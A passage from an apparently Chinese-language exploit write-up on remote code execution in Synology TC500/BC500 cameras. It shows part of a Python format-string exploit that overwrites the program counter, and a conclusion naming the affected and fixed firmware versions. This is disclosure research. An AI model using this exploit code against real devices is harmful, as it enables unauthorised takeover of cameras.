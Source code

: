 ```
        print("[+] Overwriting PC...")

        self.point_to_ret_addr()

        raw_payload  = b""
        raw_payload += struct.pack("<L", 0x41414141)
        raw_payload += struct.pack("<L", 0x42424242)
        raw_payload += b"%*120$c"   # we use our fake stack value.
        raw_payload += b"%924$n"
        payload = self.prepare_payload(raw_payload)
        self.send_payload(payload)

def main(args):
    exploit = Exploit(args.shost, args.dhost, args.dport)
    exploit.stage_0()
    exploit.stage_1()
    exploit.stage_2()

    print("[+] Woot!")

if __name__ == "__main__":
    args = get_args()
    main(args)

```  
## 结论  
  
该漏洞利用展示了格式字符串漏洞如何在特定格式字符串说明符的配合下，成功绕过现代防御机制，如地址空间布局随机化（ASLR）和位置无关可执行文件（PIE）。通过利用循环指针对栈的写入控制，我们构建了一个功能性 ROP 链，而无需依赖直接的内存泄漏或暴力破解方法。  
  
此漏洞影响了版本为1.1.1-0383的 Synology TC500 和 BC500 摄像头，并在版本1.1.3-0442中得到修复（详见更新日志），这意味着该漏洞利用在 Pwn2Own 比赛期间无法执行。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCO5MiaAibnxl9uIZA51EBDMSJlaSiazS3pFxvKPRr9vjJzMc5Zf7OBhzcnpTrl05kcHROUBaeek9v0qg/640?wx_fmt=png&from=appmsg "")  
  
Synology TC500 安全摄像头的远程代码执行  
  

